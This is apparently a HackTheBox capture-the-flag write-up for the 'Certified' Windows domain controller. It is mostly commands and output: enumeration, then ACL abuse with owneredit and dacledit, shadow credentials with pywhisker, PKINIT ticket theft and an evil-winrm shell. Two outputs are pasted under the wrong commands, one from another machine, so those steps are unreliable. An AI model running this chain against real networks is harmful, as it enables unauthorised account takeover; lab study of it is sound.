

# CTF Penetration Testing

## Platform: HackTheBox

### Machine: [Certified](https://www.hackthebox.com/machines/Certified)


- Machine type:  Windows
- Machine difficulty: 🟨 Medium (<span style="color:#e63c35;">4.7</span>)

> As is common in Windows pentests, you will start the Certified box with credentials for the following account: Username: "judith.mader" Password: "judith09".

#### Tools Used

**Linux**:
- bloodhound
- bloodhound-python
- certipy-ad
- evil-winrm
- gettgtpkinit.py (PKINITtools)
- impacket-dacledit
- impacket-owneredit
- impacket-psexec
- kerbrute
- ldapdomaindump
- net
- netexec
- nmap
- pywhisker
- openssl

**Windows**:
- PowerView.ps1
- Rubeus.exe

#### Skills Learned

- [ESC9 attack](https://book.hacktricks.wiki/en/windows-hardening/active-directory-methodology/ad-certificates/domain-escalation.html#no-security-extension---esc9)

#### Machine Writeup


`ifconfig tun0`:
```
tun0: flags=4305<UP,POINTOPOINT,RUNNING,NOARP,MULTICAST>  mtu 1500
        inet 10.10.14.32  netmask 255.255.254.0  destination 10.10.14.32
        inet6 dead:beef:2::101e  prefixlen 64  scopeid 0x0<global>
        inet6 fe80::c0f9:f4ad:7aa0:47cd  prefixlen 64  scopeid 0x20<link>
        unspec 00-00-00-00-00-00-00-00-00-00-00-00-00-00-00-00  txqueuelen 500  (UNSPEC)
        RX packets 35  bytes 4544 (4.4 KiB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 14585  bytes 641725 (626.6 KiB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0
```

`fping 10.10.11.41`:
```
10.10.11.41 is alive
```

`sudo nmap -Pn -sSV -p- -T5 10.10.11.41`:
```
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-01-03 13:20 EST
Nmap scan report for 10.10.11.41
Host is up (0.14s latency).
Not shown: 65516 filtered tcp ports (no-response)
PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Simple DNS Plus
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2025-01-04 01:23:34Z)🌐
135/tcp   open  msrpc         Microsoft Windows RPC🌐
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn🌐
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: certified.htb0., Site: Default-First-Site-Name)🌐
445/tcp   open  microsoft-ds?🌐
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: certified.htb0., Site: Default-First-Site-Name)
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: certified.htb0., Site: Default-First-Site-Name)
3269/tcp  open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: certified.htb0., Site: Default-First-Site-Name)
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)🌐
9389/tcp  open  mc-nmf        .NET Message Framing
49666/tcp open  msrpc         Microsoft Windows RPC
49668/tcp open  msrpc         Microsoft Windows RPC
49674/tcp open  msrpc         Microsoft Windows RPC
49683/tcp open  msrpc         Microsoft Windows RPC
49716/tcp open  msrpc         Microsoft Windows RPC
49739/tcp open  msrpc         Microsoft Windows RPC
Service Info: Host: DC01; OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 232.05 seconds
```

`sudo nmap -Pn -sS --script=ldap-rootdse -p389 10.10.11.41`:
```
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-01-03 13:20 EST
Nmap scan report for 10.10.11.41
Host is up (0.13s latency).

PORT    STATE SERVICE
389/tcp open  ldap
| ldap-rootdse: 
| LDAP Results
|   <ROOT>
|       domainFunctionality: 7
|       forestFunctionality: 7
|       domainControllerFunctionality: 7
|       rootDomainNamingContext: DC=certified,DC=htb
|       ldapServiceName: certified.htb:dc01$@CERTIFIED.HTB
|       isGlobalCatalogReady: TRUE
|       supportedSASLMechanisms: GSSAPI
|       supportedSASLMechanisms: GSS-SPNEGO
|       supportedSASLMechanisms: EXTERNAL
|       supportedSASLMechanisms: DIGEST-MD5
|       supportedLDAPVersion: 3
|       supportedLDAPVersion: 2
|       supportedLDAPPolicies: MaxPoolThreads
|       supportedLDAPPolicies: MaxPercentDirSyncRequests
|       supportedLDAPPolicies: MaxDatagramRecv
|       supportedLDAPPolicies: MaxReceiveBuffer
|       supportedLDAPPolicies: InitRecvTimeout
|       supportedLDAPPolicies: MaxConnections
|       supportedLDAPPolicies: MaxConnIdleTime
|       supportedLDAPPolicies: MaxPageSize
|       supportedLDAPPolicies: MaxBatchReturnMessages
|       supportedLDAPPolicies: MaxQueryDuration
|       supportedLDAPPolicies: MaxDirSyncDuration
|       supportedLDAPPolicies: MaxTempTableSize
|       supportedLDAPPolicies: MaxResultSetSize
|       supportedLDAPPolicies: MinResultSets
|       supportedLDAPPolicies: MaxResultSetsPerConn
|       supportedLDAPPolicies: MaxNotificationPerConn
|       supportedLDAPPolicies: MaxValRange
|       supportedLDAPPolicies: MaxValRangeTransitive
|       supportedLDAPPolicies: ThreadMemoryLimit
|       supportedLDAPPolicies: SystemMemoryLimitPercent
|       supportedControl: 1.2.840.113556.1.4.319
|       supportedControl: 1.2.840.113556.1.4.801
|       supportedControl: 1.2.840.113556.1.4.473
|       supportedControl: 1.2.840.113556.1.4.528
|       supportedControl: 1.2.840.113556.1.4.417
|       supportedControl: 1.2.840.113556.1.4.619
|       supportedControl: 1.2.840.113556.1.4.841
|       supportedControl: 1.2.840.113556.1.4.529
|       supportedControl: 1.2.840.113556.1.4.805
|       supportedControl: 1.2.840.113556.1.4.521
|       supportedControl: 1.2.840.113556.1.4.970
|       supportedControl: 1.2.840.113556.1.4.1338
|       supportedControl: 1.2.840.113556.1.4.474
|       supportedControl: 1.2.840.113556.1.4.1339
|       supportedControl: 1.2.840.113556.1.4.1340
|       supportedControl: 1.2.840.113556.1.4.1413
|       supportedControl: 2.16.840.1.113730.3.4.9
|       supportedControl: 2.16.840.1.113730.3.4.10
|       supportedControl: 1.2.840.113556.1.4.1504
|       supportedControl: 1.2.840.113556.1.4.1852
|       supportedControl: 1.2.840.113556.1.4.802
|       supportedControl: 1.2.840.113556.1.4.1907
|       supportedControl: 1.2.840.113556.1.4.1948
|       supportedControl: 1.2.840.113556.1.4.1974
|       supportedControl: 1.2.840.113556.1.4.1341
|       supportedControl: 1.2.840.113556.1.4.2026
|       supportedControl: 1.2.840.113556.1.4.2064
|       supportedControl: 1.2.840.113556.1.4.2065
|       supportedControl: 1.2.840.113556.1.4.2066
|       supportedControl: 1.2.840.113556.1.4.2090
|       supportedControl: 1.2.840.113556.1.4.2205
|       supportedControl: 1.2.840.113556.1.4.2204
|       supportedControl: 1.2.840.113556.1.4.2206
|       supportedControl: 1.2.840.113556.1.4.2211
|       supportedControl: 1.2.840.113556.1.4.2239
|       supportedControl: 1.2.840.113556.1.4.2255
|       supportedControl: 1.2.840.113556.1.4.2256
|       supportedControl: 1.2.840.113556.1.4.2309
|       supportedControl: 1.2.840.113556.1.4.2330
|       supportedControl: 1.2.840.113556.1.4.2354
|       supportedCapabilities: 1.2.840.113556.1.4.800
|       supportedCapabilities: 1.2.840.113556.1.4.1670
|       supportedCapabilities: 1.2.840.113556.1.4.1791
|       supportedCapabilities: 1.2.840.113556.1.4.1935
|       supportedCapabilities: 1.2.840.113556.1.4.2080
|       supportedCapabilities: 1.2.840.113556.1.4.2237
|       subschemaSubentry: CN=Aggregate,CN=Schema,CN=Configuration,DC=certified,DC=htb
|       serverName: CN=DC01,CN=Servers,CN=Default-First-Site-Name,CN=Sites,CN=Configuration,DC=certified,DC=htb
|       schemaNamingContext: CN=Schema,CN=Configuration,DC=certified,DC=htb
|       namingContexts: DC=certified,DC=htb
|       namingContexts: CN=Configuration,DC=certified,DC=htb
|       namingContexts: CN=Schema,CN=Configuration,DC=certified,DC=htb
|       namingContexts: DC=DomainDnsZones,DC=certified,DC=htb
|       namingContexts: DC=ForestDnsZones,DC=certified,DC=htb
|       isSynchronized: TRUE
|       highestCommittedUSN: 90230
|       dsServiceName: CN=NTDS Settings,CN=DC01,CN=Servers,CN=Default-First-Site-Name,CN=Sites,CN=Configuration,DC=certified,DC=htb
|       dnsHostName: DC01.certified.htb📌
|       defaultNamingContext: DC=certified,DC=htb
|       currentTime: 20250104012044.0Z
|_      configurationNamingContext: CN=Configuration,DC=certified,DC=htb
Service Info: Host: DC01; OS: Windows

Nmap done: 1 IP address (1 host up) scanned in 0.83 seconds
```

`echo -e '10.10.11.41\tDC01.certified.htb DC01 certified.htb' | sudo tee -a /etc/hosts`:
```
10.10.11.41     DC01.certified.htb DC01 certified.htb
```

`netexec smb 10.10.11.41`:
```
SMB         10.10.11.41     445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:certified.htb) (signing:True) (SMBv1:False)📌
```

`netexec smb 10.10.11.41 -u 'judith.mader' -p 'judith09'`:
```
SMB         10.10.11.41     445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:certified.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.41     445    DC01             [+] certified.htb\judith.mader:judith09🔑
```

`netexec smb 10.10.11.41 -u 'judith.mader' -p 'judith09' --shares`:
```
SMB         10.10.11.41     445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:certified.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.41     445    DC01             [+] certified.htb\judith.mader:judith09 
SMB         10.10.11.41     445    DC01             [*] Enumerated shares
SMB         10.10.11.41     445    DC01             Share           Permissions     Remark
SMB         10.10.11.41     445    DC01             -----           -----------     ------
SMB         10.10.11.41     445    DC01             ADMIN$                          Remote Admin
SMB         10.10.11.41     445    DC01             C$                              Default share
SMB         10.10.11.41     445    DC01             IPC$            READ            Remote IPC
SMB         10.10.11.41     445    DC01             NETLOGON        READ            Logon server share 
SMB         10.10.11.41     445    DC01             SYSVOL          READ            Logon server share 
```

`netexec smb 10.10.11.41 -u 'judith.mader' -p 'judith09' --pass-pol`:
```
SMB         10.10.11.41     445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:certified.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.41     445    DC01             [+] certified.htb\judith.mader:judith09 
SMB         10.10.11.41     445    DC01             [+] Dumping password info for domain: CERTIFIED
SMB         10.10.11.41     445    DC01             Minimum password length: 7
SMB         10.10.11.41     445    DC01             Password history length: 24
SMB         10.10.11.41     445    DC01             Maximum password age: 41 days 23 hours 53 minutes 
SMB         10.10.11.41     445    DC01             
SMB         10.10.11.41     445    DC01             Password Complexity Flags: 000000📌
SMB         10.10.11.41     445    DC01                 Domain Refuse Password Change: 0
SMB         10.10.11.41     445    DC01                 Domain Password Store Cleartext: 0
SMB         10.10.11.41     445    DC01                 Domain Password Lockout Admins: 0
SMB         10.10.11.41     445    DC01                 Domain Password No Clear Change: 0
SMB         10.10.11.41     445    DC01                 Domain Password No Anon Change: 0
SMB         10.10.11.41     445    DC01                 Domain Password Complex: 0
SMB         10.10.11.41     445    DC01             
SMB         10.10.11.41     445    DC01             Minimum password age: 1 day 4 minutes 
SMB         10.10.11.41     445    DC01             Reset Account Lockout Counter: 10 minutes 
SMB         10.10.11.41     445    DC01             Locked Account Duration: 10 minutes 
SMB         10.10.11.41     445    DC01             Account Lockout Threshold: None
SMB         10.10.11.41     445    DC01             Forced Log off Time: Not Set
```

`netexec smb 10.10.11.42 -u 'judith.mader' -p 'judith09' --users`:
```
SMB         10.10.11.41     445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:certified.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.41     445    DC01             [+] certified.htb\judith.mader:judith09 
SMB         10.10.11.41     445    DC01             -Username-                    -Last PW Set-       -BadPW- -Description-                                               
SMB         10.10.11.41     445    DC01             Administrator                 2024-05-13 14:53:16 0       Built-in account for administering the computer/domain 
SMB         10.10.11.41     445    DC01             Guest                         <never>             0       Built-in account for guest access to the computer/domain 
SMB         10.10.11.41     445    DC01             krbtgt                        2024-05-13 15:02:51 0       Key Distribution Center Service Account 
SMB         10.10.11.41     445    DC01             judith.mader👤                 2024-05-14 19:22:11 0        
SMB         10.10.11.41     445    DC01             management_svc👤               2024-05-13 15:30:51 0        
SMB         10.10.11.41     445    DC01             ca_operator👤                  2024-05-13 15:32:03 0        
SMB         10.10.11.41     445    DC01             alexander.huges👤              2024-05-14 16:39:08 0        
SMB         10.10.11.41     445    DC01             harry.wilson👤                 2024-05-14 16:39:37 0        
SMB         10.10.11.41     445    DC01             gregory.cameron👤              2024-05-14 16:40:05 0  
```

`netexec smb 10.10.11.41 -u 'judith.mader' -p 'judith09' --users | awk '{print $5}' | grep -v -E ']|-' | tee ./domain_users.txt`:
```
Administrator
Guest
krbtgt
judith.mader
management_svc
ca_operator
alexander.huges
harry.wilson
gregory.cameron
```

`kerbrute userenum --dc 10.10.11.41 -d 'certified.htb' ./domain_users.txt`:
```
    __             __               __     
   / /_____  _____/ /_  _______  __/ /____ 
  / //_/ _ \/ ___/ __ \/ ___/ / / / __/ _ \
 / ,< /  __/ /  / /_/ / /  / /_/ / /_/  __/
/_/|_|\___/_/  /_.___/_/   \__,_/\__/\___/                                        

Version: v1.0.3 (9dad6e1) - 01/03/25 - Ronnie Flathers @ropnop

2025/01/03 13:27:39 >  Using KDC(s):
2025/01/03 13:27:39 >   10.10.11.41:88

2025/01/03 13:27:40 >  [+] VALID USERNAME:       Administrator@certified.htb
2025/01/03 13:27:40 >  [+] VALID USERNAME:       judith.mader@certified.htb
2025/01/03 13:27:40 >  [+] VALID USERNAME:       ca_operator@certified.htb
2025/01/03 13:27:40 >  [+] VALID USERNAME:       alexander.huges@certified.htb
2025/01/03 13:27:40 >  [+] VALID USERNAME:       gregory.cameron@certified.htb
2025/01/03 13:27:40 >  [+] VALID USERNAME:       management_svc@certified.htb
2025/01/03 13:27:40 >  [+] VALID USERNAME:       harry.wilson@certified.htb
2025/01/03 13:27:40 >  Done! Tested 9 usernames (7 valid) in 0.144 seconds
```

`kerbrute userenum --dc 10.10.11.41 -d 'certified.htb' ./domain_users.txt | grep 'VALID' | awk '{ print $7 }' | awk -F '@' '{ print $1 }' | awk '{ print tolower($0) }' | awk NF | sort | tee ./domain_users.txt`:
```
administrator
alexander.huges
ca_operator👤
gregory.cameron
harry.wilson
judith.mader👤
management_svc👤
```

`netexec winrm 10.10.11.41 -u 'judith.mader' -p 'judith09'`:
```
WINRM       10.10.11.42     5985   DC               [*] Windows Server 2022 Build 20348 (name:DC) (domain:administrator.htb)
WINRM       10.10.11.42     5985   DC               [+] administrator.htb\olivia:ichliebedich (Pwn3d!)📌
```

`evil-winrm -i 10.10.11.42 -u 'judith.mader' -p 'judith09'`:
```
WINRM       10.10.11.41     5985   DC01             [*] Windows 10 / Server 2019 Build 17763 (name:DC01) (domain:certified.htb)
WINRM       10.10.11.41     5985   DC01             [-] certified.htb\judith.mader:judith09
```
❌

`ldapdomaindump 10.10.11.41 -u 'certified.htb\judith.mader' -p 'judith09' -o ./ldapdomaindump`:
```
[*] Connecting to host...
[*] Binding to host
[+] Bind OK
[*] Starting domain dump
[+] Domain dump finished
```

`firefox ./ldapdomaindump/domain_users_by_group.html &`



`bloodhound-python -d 'certified.htb' -ns 10.10.11.41 -u 'judith.mader' -p 'judith09' -c All`:
```
INFO: Found AD domain: certified.htb
INFO: Getting TGT for user
WARNING: Failed to get Kerberos TGT. Falling back to NTLM authentication. Error: Kerberos SessionError: KRB_AP_ERR_SKEW(Clock skew too great)
INFO: Connecting to LDAP server: dc01.certified.htb
INFO: Found 1 domains
INFO: Found 1 domains in the forest
INFO: Found 1 computers
INFO: Connecting to LDAP server: dc01.certified.htb
INFO: Found 10 users
INFO: Found 53 groups
INFO: Found 2 gpos
INFO: Found 1 ous
INFO: Found 19 containers
INFO: Found 0 trusts
INFO: Starting computer enumeration with 10 workers
INFO: Querying computer: DC01.certified.htb
INFO: Done in 00M 28S
```

`ls -l ./*.json`:
```   
-rw-rw-r-- 1 nabla nabla  3696 Jan  3 13:40 ./20250103134015_computers.json
-rw-rw-r-- 1 nabla nabla 24870 Jan  3 13:40 ./20250103134015_containers.json
-rw-rw-r-- 1 nabla nabla  3104 Jan  3 13:40 ./20250103134015_domains.json
-rw-rw-r-- 1 nabla nabla  3980 Jan  3 13:40 ./20250103134015_gpos.json
-rw-rw-r-- 1 nabla nabla 81590 Jan  3 13:40 ./20250103134015_groups.json
-rw-rw-r-- 1 nabla nabla  1647 Jan  3 13:40 ./20250103134015_ous.json
-rw-rw-r-- 1 nabla nabla 23346 Jan  3 13:40 ./20250103134015_users.json
```

`zip ./bh.zip ./*.json`:
```
  adding: 20250103134015_computers.json (deflated 73%)
  adding: 20250103134015_containers.json (deflated 93%)
  adding: 20250103134015_domains.json (deflated 76%)
  adding: 20250103134015_gpos.json (deflated 85%)
  adding: 20250103134015_groups.json (deflated 94%)
  adding: 20250103134015_ous.json (deflated 64%)
  adding: 20250103134015_users.json (deflated 93%)
```

`sudo neo4j console`

`bloodhound`

`Database Info` > `Refresh Database Stats`
`Database Info` > `Clear Sessions`
`Database Info` > `Clear Database`

`Upload Data: ~/bh.zip` > `Clear Finished`

`Search for a node: judith` > `JUDITH.MADER@CERTIFIED.HTB` > `<right-click>` > `Mark User as Owned`

`JUDITH.MADER@CERTIFIED.HTB` > `Node Info`:
```
[...]

#### EXECUTION RIGHTS

|First Degree RDP Privileges        |0|
|Group Delegated RDP Privileges     |0|
|First Degree DCOM Privileges       |0|
|Group Delegated DCOM Privileges    |0|
|SQL Admin Rights                   |0|
|Constrained Delegation Privileges  |0|

---

#### OUTBOUND OBJECT CONTROL

|First Degree Object Control        |1|📌
|Group Delegated Object Control     |0|
|Transitive Object Control          |0|

[...]
```

`Graph`:
```
JUDITH.MADER@CERTIFIED ---(WriteOwner)--- MANAGEMENT
MANAGEMENT ---(GenericWrite)--- MANAGEMENT_SVC
MANAGEMENT_SVC ---(CanPSRemote)--- DC01.CERTIFIED.HTB
MANAGEMENT_SVC ---(MemberOf)--- REMOTE MANAGEMENT USERS
MANAGEMENT_SVC ---(GenericAll)--- CA_OPERATOR
```

`WriteOwner`:
```
INFO:

The user JUDITH.MADER@CERTIFIED.HTB has the ability to modify the owner of the group MANAGEMENT@CERTIFIED.HTB.

Object owners retain the ability to modify object security descriptors, regardless of permissions on the object's DACL.

---

LINUX ABUSE:

To change the ownership of the object, you may use Impacket's owneredit example script (cf. "grant ownership" reference for the exact link).
~~~
owneredit.py -action write -owner 'attacker' -target 'victim' 'DOMAIN'/'USER':'PASSWORD'
~~~

Modifying the rights

To abuse ownership of a group object, you may grant yourself the AddMember privilege.

Impacket's dacledit can be used for that purpose (cf. "grant rights" reference for the link).
~~~
dacledit.py -action 'write' -rights 'WriteMembers' -principal 'controlledUser' -target-dn 'groupDistinguidedName' 'domain'/'controlledUser':'password'
~~~

Adding to the group

You can now add members to the group.

Use samba's net tool to add the user to the target group. The credentials can be supplied in cleartext or prompted interactively if omitted from the command line:
~~~
net rpc group addmem "TargetGroup" "TargetUser" -U "DOMAIN"/"ControlledUser"%"Password" -S "DomainController"
~~~

Pass-the-hash can also be done here with pth-toolkit's net tool. If the LM hash is not known it must be replace with ffffffffffffffffffffffffffffffff.
~~~
pth-net rpc group addmem "TargetGroup" "TargetUser" -U "DOMAIN"/"ControlledUser"%"LMhash":"NThash" -S "DomainController"
~~~

Finally, verify that the user was successfully added to the group:
~~~
net rpc group members "TargetGroup" -U "DOMAIN"/"ControlledUser"%"Password" -S "DomainController"
~~~
```

`GenericWrite`:
```
INFO:

The members of the group MANAGEMENT@CERTIFIED.HTB have generic write access to the user MANAGEMENT_SVC@CERTIFIED.HTB.

Generic Write access grants you the ability to write to any non-protected attribute on the target object, including "members" for a group, and "serviceprincipalnames" for a user

---

LINUX ABUSE:

[...]

Shadow Credentials attack

To abuse this privilege, use pyWhisker.
~~~
pywhisker.py -d "domain.local" -u "controlledAccount" -p "somepassword" --target "targetAccount" --action "add"
~~~

For other optional parameters, view the pyWhisker documentation.
```

`GenericAll`:
```
INFO:

The members of the group ENTERPRISE ADMINS@CERTIFIED.HTB have GenericAll privileges to the user CA_OPERATOR@CERTIFIED.HTB.

This is also known as full control. This privilege allows the trustee to manipulate the target object however they wish.

---

WINDOWS ABUSE:

Full control of a user allows you to modify properties of the user to perform a targeted kerberoast attack, and also grants the ability to reset the password of the user without knowing their current one.

[...]

Force Change Password

There are at least two ways to execute this attack. The first and most obvious is by using the built-in net.exe binary in Windows (e.g.: net user dfm.a Password123! /domain). See the opsec considerations tab for why this may be a bad idea. The second, and highly recommended method, is by using the Set-DomainUserPassword function in PowerView. This function is superior to using the net.exe binary in several ways. For instance, you can supply alternate credentials, instead of needing to run a process as or logon as the user with the ForceChangePassword privilege. Additionally, you have much safer execution options than you do with spawning net.exe (see the opsec tab).

To abuse this privilege with PowerView's Set-DomainUserPassword, first import PowerView into your agent session or into a PowerShell instance at the console. You may need to authenticate to the Domain Controller as MANAGEMENT_SVC@CERTIFIED.HTB if you are not running a process as that user. To do this in conjunction with Set-DomainUserPassword, first create a PSCredential object (these examples comes from the PowerView help documentation):
~~~
$SecPassword = ConvertTo-SecureString 'Password123!' -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential('TESTLAB\dfm.a', $SecPassword)
~~~

Then create a secure string object for the password you want to set on the target user:
~~~
$UserPassword = ConvertTo-SecureString 'Password123!' -AsPlainText -Force
~~~

Finally, use Set-DomainUserPassword, optionally specifying $Cred if you are not already running a process as MANAGEMENT_SVC@CERTIFIED.HTB:
~~~
Set-DomainUserPassword -Identity andy -AccountPassword $UserPassword -Credential $Cred
~~~

Now that you know the target user's plain text password, you can either start a new agent as that user, or use that user's credentials in conjunction with PowerView's ACL abuse functions, or perhaps even RDP to a system the target user has access to. For more ideas and information, see the references tab.
```

`net rpc group members "Management" -U "certified.htb/judith.mader%judith09" -S 10.10.11.41`:
```
CERTIFIED\management_svc
```

`impacket-owneredit -action 'write' -new-owner 'judith.mader' -target 'management' 'certified.htb/judith.mader:judith09'`:
```
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Current owner information below
[*] - SID: S-1-5-21-729746778-2675978091-3820388244-512
[*] - sAMAccountName: Domain Admins
[*] - distinguishedName: CN=Domain Admins,CN=Users,DC=certified,DC=htb
[*] OwnerSid modified successfully!
```

`impacket-dacledit -action 'write' -rights WriteMembers -principal 'judith.mader' -target-dn 'CN=Management,CN=Users,DC=certified,DC=htb' 'certified.htb/judith.mader:judith09'`:
```
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] DACL backed up to dacledit-20250104-183031.bak
[*] DACL modified successfully!
```

`net rpc group addmem "Management" "judith.mader" -U "certified.htb/judith.mader%judith09" -S 10.10.11.41`

`net rpc group members "Management" -U "certified.htb/judith.mader%judith09" -S 10.10.11.41`:
```
CERTIFIED\judith.mader📌
CERTIFIED\management_svc
```

`pywhisker.py -d 'certified.htb' -u 'judith.mader' -p 'judith09' --target 'management_svc' --action 'add'`:
```
[*] Searching for the target account
[*] Target user found: CN=management service,CN=Users,DC=certified,DC=htb
[*] Generating certificate
[*] Certificate generated
[*] Generating KeyCredential
[*] KeyCredential generated with DeviceID: fabeed21-1013-e094-0e5c-efcf46ef9439
[*] Updating the msDS-KeyCredentialLink attribute of management_svc
[+] Updated the msDS-KeyCredentialLink attribute of the target object
[+] Saved PFX (#PKCS12) certificate & key at path: zjmkctQY.pfx
[*] Must be used with password: bCSRLuLVINLae421u9xH
[*] A TGT can now be obtained with https://github.com/dirkjanm/PKINITtools
```

`file ./*.pfx`:
```
./zjmkctQY.pfx: data
```

`python3 gettgtpkinit.py -cert-pfx ./zjmkctQY.pfx -pfx-pass 'bCSRLuLVINLae421u9xH' 'certified.htb/management_svc' ./managementsvc_tgt.ccache -dc-ip 10.10.11.41`:
```
2025-01-08 12:42:45,960 minikerberos INFO     Loading certificate and key from file
INFO:minikerberos:Loading certificate and key from file
2025-01-08 12:42:45,991 minikerberos INFO     Requesting TGT
INFO:minikerberos:Requesting TGT
2025-01-08 12:43:09,786 minikerberos INFO     AS-REP encryption key (you might need this later):
INFO:minikerberos:AS-REP encryption key (you might need this later):
2025-01-08 12:43:09,786 minikerberos INFO     64c935a06a3b93c2f05613af3a1867bf1ad85171c83b8be4fc1116e2bcf09b9b
INFO:minikerberos:64c935a06a3b93c2f05613af3a1867bf1ad85171c83b8be4fc1116e2bcf09b9b
2025-01-08 12:43:09,790 minikerberos INFO     Saved TGT to file
INFO:minikerberos:Saved TGT to file
```

`file ./managementsvc_tgt.ccache`:
``` 
./managementsvc_tgt.ccache: data
```

`export KRB5CCNAME=/home/nabla/managementsvc_tgt.ccache`

`klist`:
```
Ticket cache: FILE:/home/nabla/managementsvc_tgt.ccache
Default principal: management_svc@CERTIFIED.HTB

Valid starting     Expires            Service principal
01/08/25 12:43:09  01/08/25 22:43:09  krbtgt/CERTIFIED.HTB@CERTIFIED.HTB
```

`kvno krbtgt/CERTIFIED.HTB@CERTIFIED.HTB`:
```
krbtgt/CERTIFIED.HTB@CERTIFIED.HTB: kvno = 2
```

`sudo mv /etc/krb5.conf /etc/krb5.conf.bak`

`sudo nano /etc/krb5.conf`:
```
[libdefaults]
    default_realm = CERTIFIED.HTB
    dns_lookup_realm = false
    dns_lookup_kdc = false

[realms]
    CERTIFIED.HTB = {
        kdc = 10.10.11.41
    }

[domain_realm]
    .certified.htb = CERTIFIED.HTB
    certified.htb = CERTIFIED.HTB
```

`kvno cifs/dc01.certified.htb`:
```
cifs/dc01.certified.htb@CERTIFIED.HTB: kvno = 4
```

`evil-winrm -i dc01.certified.htb -r CERTIFIED.HTB`:
```
Evil-WinRM shell v3.7
                                        
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
```
🐚


`whoami`:
```
certified\management_svc
```

`whomai /all`:
```
USER INFORMATION
----------------

User Name                SID
======================== =============================================
certified\management_svc S-1-5-21-729746778-2675978091-3820388244-1105


GROUP INFORMATION
-----------------

Group Name                                  Type             SID                                           Attributes
=========================================== ================ ============================================= ==================================================
Everyone                                    Well-known group S-1-1-0                                       Mandatory group, Enabled by default, Enabled group
BUILTIN\Remote Management Users             Alias            S-1-5-32-580                                  Mandatory group, Enabled by default, Enabled group
BUILTIN\Users                               Alias            S-1-5-32-545                                  Mandatory group, Enabled by default, Enabled group
BUILTIN\Pre-Windows 2000 Compatible Access  Alias            S-1-5-32-554                                  Mandatory group, Enabled by default, Enabled group
BUILTIN\Certificate Service DCOM Access     Alias            S-1-5-32-574                                  Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NETWORK                        Well-known group S-1-5-2                                       Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users            Well-known group S-1-5-11                                      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization              Well-known group S-1-5-15                                      Mandatory group, Enabled by default, Enabled group
CERTIFIED\Management                        Group            S-1-5-21-729746778-2675978091-3820388244-1104 Mandatory group, Enabled by default, Enabled group
Authentication authority asserted identity  Well-known group S-1-18-1                                      Mandatory group, Enabled by default, Enabled group
Key trust identity                          Well-known group S-1-18-4                                      Mandatory group, Enabled by default, Enabled group
Key property multi-factor authentication    Well-known group S-1-18-5                                      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization Certificate  Well-known group S-1-5-65-1                                    Mandatory group, Enabled by default, Enabled group
Mandatory Label\Medium Plus Mandatory Level Label            S-1-16-8448


PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State
============================= ============================== =======
SeMachineAccountPrivilege     Add workstations to domain     Enabled
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Enabled


USER CLAIMS INFORMATION
-----------------------

User claims unknown.

